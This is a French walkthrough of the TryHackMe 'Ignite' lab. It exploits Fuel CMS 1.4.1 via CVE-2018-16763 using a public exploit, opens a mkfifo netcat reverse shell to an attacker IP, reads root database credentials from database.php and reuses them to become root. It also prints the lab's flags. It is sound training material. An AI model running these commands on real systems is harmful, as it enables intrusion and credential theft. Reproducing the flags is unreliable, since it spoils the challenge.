---
tags:
  - Web
  - TryHackMe
  - Facile
  - Nmap
  - RCE
  - CVE
  - Fuel CMS
---

# Ignite - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | Web, RCE, Exploitation de CMS, Privilege Escalation |
| **Prérequis** | Bases de Linux, HTTP, utilisation de Nmap, compréhension des CVE et exploits publics |

## Contexte et objectifs

Cette room met en scène un serveur web faisant tourner **Fuel CMS 1.4**, un système de gestion de contenu PHP. L'objectif est d'identifier une vulnérabilité connue sur cette version, d'en exploiter la faille d'exécution de code à distance, puis d'élever ses privilèges jusqu'à root en exploitant des identifiants stockés en clair dans un fichier de configuration.

!!! info "À propos de cette room"
    Ignite illustre deux problèmes très courants en production : l'utilisation d'un logiciel non maintenu avec une vulnérabilité critique publiquement documentée (CVE-2018-16763), et la réutilisation de credentials de base de données comme mot de passe système. Ces deux failles combinées permettent une compromission complète sans aucun bruteforce.

## Méthodologie

### Étape 1 : Cartographie des services avec Nmap

On commence par identifier les services exposés sur la machine cible.

```bash
nmap -sC -sV <IP_cible>
```

[](./screen/Ignite/WindowsTerminal_WOVSpW86hD.png)

!!! tip "Pourquoi ce scan ?"
    Les options `-sC` (scripts par défaut) et `-sV` (détection de version) permettent d'obtenir rapidement la bannière du service et les informations de version, essentielles pour identifier des vulnérabilités connues.

Le scan révèle un seul port ouvert :
- **80/tcp** : Apache httpd 2.4.18 (Ubuntu)

Nmap identifie directement le titre de la page (`Welcome to FUEL CMS`) et signale une entrée dans `robots.txt` pointant vers `/fuel/`.

### Étape 2 : Reconnaissance web

On visite la page d'accueil sur `http://<IP_cible>`. Elle affiche la page de bienvenue de Fuel CMS avec sa version clairement indiquée.

[](./screen/Ignite/RbD2SHDG9d.png)

!!! tip "Pourquoi la version est-elle importante ?"
    Un CMS qui affiche sa version en clair est une mine d'or pour un attaquant : il suffit de chercher les CVE associées à cette version exacte pour trouver des exploits publics.

On consulte le fichier `robots.txt`, qui confirme la présence d'un répertoire `/fuel/` à exclure de l'indexation :

[](./screen/Ignite/msrdc_SUrE7EPu6N.png)

En accédant à `http://<IP_cible>/fuel`, on trouve la page de connexion de l'interface d'administration :

[](./screen/Ignite/msrdc_YEVFQCVNLY.png)

On tente les identifiants par défaut :

- **Identifiant** : `admin`
- **Mot de passe** : `admin`

[](./screen/Ignite/msrdc_yid9JAxd8s.png)

La connexion fonctionne, les identifiants par défaut n'ont pas été changés.

[](./screen/Ignite/msrdc_8osj17oBmE.png)

!!! warning "Observation clé"
    Des identifiants par défaut non modifiés constituent une faille critique. Avoir des credentials par défaut sur une page d'administration reste dangereux, indépendamment de toute autre vulnérabilité présente sur l'application.

### Étape 3 : Identification de la vulnérabilité avec SearchSploit

La page de connexion révèle la version du CMS, Fuel CMS 1.4.1. Une recherche sur cette version précise permet de trouver qu'elle est affectée par la **CVE-2018-16763**, une vulnérabilité d'exécution de code à distance non authentifiée. Le paramètre `filter` du contrôleur `pages` est passé directement à la fonction `eval()` de PHP sans aucune validation.

!!! info "Qu'est-ce que CVE-2018-16763 ?"
    Cette vulnérabilité affecte le endpoint `/fuel/pages/select/`. Le paramètre `filter` est injecté dans un appel `eval()` côté serveur, ce qui permet à un attaquant d'exécuter du code PHP arbitraire sans être authentifié.

On recherche l'exploit dans la base de données locale :

```bash
searchsploit fuel cms
```

[](./screen/Ignite/50YSGZw1fv.png)

La recherche remonte sept résultats, dont trois exploits de Remote Code Execution ciblant tous la même CVE-2018-16763 : `47138.py`, `49487.rb` et `50477.py`. On retient ce dernier, un script Python plus simple à lire et à adapter que l'alternative en Ruby.

L'exploit se trouve dans le dépôt local d'Exploit-DB, on le copie dans notre répertoire de travail pour pouvoir le lancer directement :

```bash
searchsploit -m php/webapps/50477.py
```

!!! tip "Pourquoi cette commande ?"
    `searchsploit -m` (mirror) copie le fichier d'exploit du dépôt local Exploit-DB, souvent en lecture seule, vers le répertoire courant, en le renommant avec son numéro EDB-ID. Cela permet de l'éditer et de l'exécuter librement sans toucher au dépôt source.

### Étape 4 : Exploitation de la RCE

On lance l'exploit en lui passant l'URL de la cible :

```bash
python3 50477.py -u http://<IP_cible>
```

[](./screen/Ignite/WindowsTerminal_tYcdmsN6OU.png)

L'exploit ouvre un pseudo-shell. On vérifie notre identité sur le serveur avec `whoami` et `id` : les commandes s'exécutent bien avec les droits de l'utilisateur `www-data`. L'exécution de commandes à distance est confirmée.

!!! tip "Limitation du pseudo-shell"
    Ce shell via RCE est instable et non interactif : pas de tabulation, pas de gestion des signaux, et certaines commandes échouent. Il faut rapidement basculer vers un vrai reverse shell.

!!! tip "Une autre méthode existe"
    Cette même CVE-2018-16763 peut aussi être exploitée sans script, en envoyant la payload directement via `curl` dans l'URL du endpoint vulnérable. C'est l'approche utilisée dans le writeup de la room [Vulnerability Capstone](vulnerability-capstone.md).

### Étape 5 : Obtention d'un reverse shell

On met en place un listener sur notre machine :

```bash
nc -lvnp 4444
```

Depuis le pseudo-shell de l'exploit, on envoie un reverse shell via mkfifo :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <VOTRE_IP> 4444 >/tmp/f
```

[](./screen/Ignite/WindowsTerminal_a5pscXJqd8.png)

La connexion entrante est reçue sur le listener :

[](./screen/Ignite/WindowsTerminal_2K3AgoJzpe.png)

On stabilise immédiatement le shell pour le rendre interactif :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

[](./screen/Ignite/WindowsTerminal_pifYvdqb21.png)

### Étape 6 : Récupération du flag utilisateur

Le flag utilisateur se trouve dans le répertoire home de `www-data` :

```bash
cat /home/www-data/flag.txt
```

[](./screen/Ignite/WindowsTerminal_OmnFVGmcdC.png)

!!! success "Réponse"
    **User flag** → `6470e394cbf6dab6a91682cc8585059b`

### Étape 7 : Escalade de privilèges via database.php

Maintenant qu'on a un shell stable en tant que `www-data`, on cherche un vecteur d'escalade de privilèges. Comme l'application web communique sûrement avec une base de données, son fichier de configuration est un bon point de départ : il contient souvent des identifiants en clair. Fuel CMS stocke les siens dans un fichier de configuration PHP. On l'examine :

```bash
cat /var/www/html/fuel/application/config/database.php
```

[](./screen/Ignite/oQJmVBBPJe.png)

Le fichier révèle les identifiants en clair :
- **username** : `root`
- **password** : `mememe`

Le username `root` correspond aussi au compte super-utilisateur du système, celui qui nous permettrait d'accéder au flag root. La réutilisation de mots de passe entre une base de données et un compte système étant fréquente, on tente l'élévation avec ce même mot de passe :

```bash
su root
```

Au prompt `Password:`, on saisit `mememe`.

[](./screen/Ignite/WindowsTerminal_cMrfjysz2H.png)

Ça fonctionne, on est désormais root.

!!! info "Pourquoi ça fonctionne ?"
    La réutilisation de mots de passe entre services (ici base de données et compte OS) est une erreur de configuration fréquente. Un attaquant qui accède à un fichier de config obtient souvent bien plus que prévu.

On lit le flag root :

```bash
cat /root/root.txt
```

[](./screen/Ignite/WindowsTerminal_YRO7rfMcQP.png)

!!! success "Réponse"
    **Root flag** → `b9bbcb33e11b80be759c4e844862482d`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | RCE non authentifiée CVE-2018-16763 (Fuel CMS 1.4.1), identifiants admin par défaut (admin/admin), réutilisation de mot de passe (database.php vers root OS) |
| **Techniques utilisées** | Scan de ports, identification de version CMS, exploitation d'exploit public, reverse shell mkfifo, lecture de fichier de configuration |
| **Outils employés** | Nmap, SearchSploit, Python3, Netcat |

!!! abstract "Ce qu'il faut retenir"
    1. Un CMS qui affiche sa version permet à un attaquant d'identifier instantanément les CVE applicables, toujours masquer les informations de version en production.
    2. Les identifiants par défaut sont systématiquement testés lors d'un pentest : ne jamais laisser `admin/admin` en place.
    3. Les fichiers de configuration contenant des credentials (`database.php`, `.env`, `config.yml`) sont des cibles prioritaires lors de la phase de post-exploitation.
    4. La réutilisation d'un mot de passe entre base de données et compte OS permet souvent une élévation de privilèges triviale.
